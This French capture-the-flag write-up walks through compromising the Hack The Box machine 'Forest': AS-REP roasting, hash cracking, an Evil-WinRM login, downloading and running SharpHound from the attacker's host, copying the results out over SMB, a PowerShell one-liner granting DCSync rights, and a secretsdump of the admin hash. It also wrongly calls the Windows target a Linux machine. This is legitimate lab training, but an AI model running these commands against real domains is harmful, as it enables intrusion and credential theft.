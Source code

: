 ![Pic1](../img/forest1.PNG?raw=true) </br>

# Introduction

Forest est une machine linux dont l'adresse IP est 10.10.10.161.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* 
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.161
```
![Pic2](../img/forest2.PNG?raw=true) </br>
Plusieurs ports ouverts, on peut déjà tenter une énumération des dossiers partagés par SMB :
```bash
$ smbmap -H 10.10.10.161
```
![Pic3](../img/forest3.PNG?raw=true) </br>
Aucun partage dispo.</br>
On peut faire une énumération RPC avec rpcclient :
```bash
$ rpcclient -U "" -N 10.10.10.161
rpcclient > enumdomusers
```
![Pic4](../img/forest4.PNG?raw=true) </br>
![Pic5](../img/forest5.PNG?raw=true) </br>

# Obtenir un accès utilisateur
En ayant la liste des utilisateurs, nous pouvons tenter d'obtenir un ticket Kerberos pour chacun, cela fonctionnera que pour le compte
svc-alfresco :
```bash
$ GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/svc-alfresco
```
![Pic6](../img/forest6.PNG?raw=true) </br>

Nous pouvons le cracker avec john :
```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/forest7.PNG?raw=true) </br>
Nous pouvons alors nous connecter via le port 5985 avec Evil-WinRM et lire le user.txt :
```bash
$ evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
> cat ../Desktop/user.txt
```
![Pic8](../img/forest8.PNG?raw=true) </br>

# Obtenir un accès administrateur
Nous allons utiliser l'outil Bloodhound, pour ce faire, il faut :
* Upload SharpHound sur la box et l'éxécuter.
* Envoyé le résultat de SharpHound vers l'attaquant.
* Charger le résultat dans Bloodhound.
* Analyser le résultat pour voir l'exploit.
* Exploitation.

## Upload SharpHound sur la box et l'éxécuter
Coté attaquant :
```bash
$ cp /opt/bloodhound/Collectors/SharpHound.ps1 ./
$ python3 -m http.server
```
Coté box :
```bash
> cd C:\Users\svc-alfresco\appdata\local\temp
> iex(new-object net.webclient).downloadstring("http://10.10.14.34:8000/SharpHound.ps1")
> dir
```
![Pic9](../img/forest9.PNG?raw=true) </br>
Nous pouvons voir le fichier 20201124130216_BloodHound.zip qui contient le résultat des données récoltées par SharpHound.

## Envoyé le résultat de SharpHound vers l'attaquant
Coté attaquant :
```bash
$ smbserver.py share . -smb2support -username df -password df
```
![Pic10](../img/forest11.PNG?raw=true) </br>
Coté box :
```bash
> net use \\10.10.14.34\share /u:df df
> copy 20201124130216_BloodHound.zip \\10.10.14.34\share\
> del 20201124130216_BloodHound.zip
> net use /d \\10.10.14.34\share
```
![Pic11](../img/forest10.PNG?raw=true) </br>

## Charger le résultat dans Bloodhound
On lance neo4j et bloodhound :
```bash
$ neo4j console
$ bloodhound
```
</br>
Maintenant nous importons les données dans bloodhound :</br>
![Pic12](../img/forest12.PNG?raw=true) </br>
Une fois finit, on va faire une recherche pour trouver le chemin le plus court vers l'administrateur du domaine :</br>
![Pic13](../img/forest13.PNG?raw=true) </br>
Nous avons alors un résultat graphique très sympa :</br>
![Pic14](../img/forest14.PNG?raw=true) </br>
Il faut savoir, que sur chaque arête se trouve un élément (Member of / contain / Genericall ..) et si on clique droit sur cet élément
et que l'on clique sur Help, Bloodhound nous donne un descriptif très complet. Dans notre cas, on a GenericAll et WriteDacl qui, dans l'help, ont une rubrique "Abuse Info" pour 
expliquer en détail comment epxloiter l'élément.

## Analyser le résultat pour voir l'exploit
En visualisant le graphique, on peut voir qu'il faudra deux jumps pour accéder à l'Administrateur depuis 
svc-alfresco. Notre utilisateur étant déjà dans le groupe Privileged IT Account, qui lui même est dans le groupe Account Operators, qui ce dernier,
si on clique sur le nom de son arête "GenericAll" nous permet de voir que ce groupe a tous les pouvoirs sur Exchange Windows Permissions. Donc il nous faudra ajouter notre compte
dans le groupe, puis à partir de ce moment là, le groupe Exchange Windows Permissions a les permissions de modifier le DACL (Discretionary Access Control List), donc nous pourrons
nous donner le privilège DcSync dans le but de dump le hash de l'admin.</br>
En résumer :
* On se rajoute dans le groupe Exchange Windows Permissions (via commande powershell).
* On se donne le privilège DcSync (via commande powershell).
* On fait un dump du hash admin (via mimikatz ou secretdump.py).

## Exploitation
L'exploitation doit se faire rapidement, sinon nous perdons les groupes acquis. Donc un One-Liner powershell est fait içi, je reprend simplement les commandes expliquées dans
bloodhound :
```bash
Evil-winRM > Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco;
 $username = "htb\svc-alfresco"; $password = "s3rvice"; 
 $secstr = New-Object -TypeName System.Security.SecureString; 
 $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; 
 $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; 
 Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
```bash
$ secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![Pic15](../img/forest15.PNG?raw=true) </br>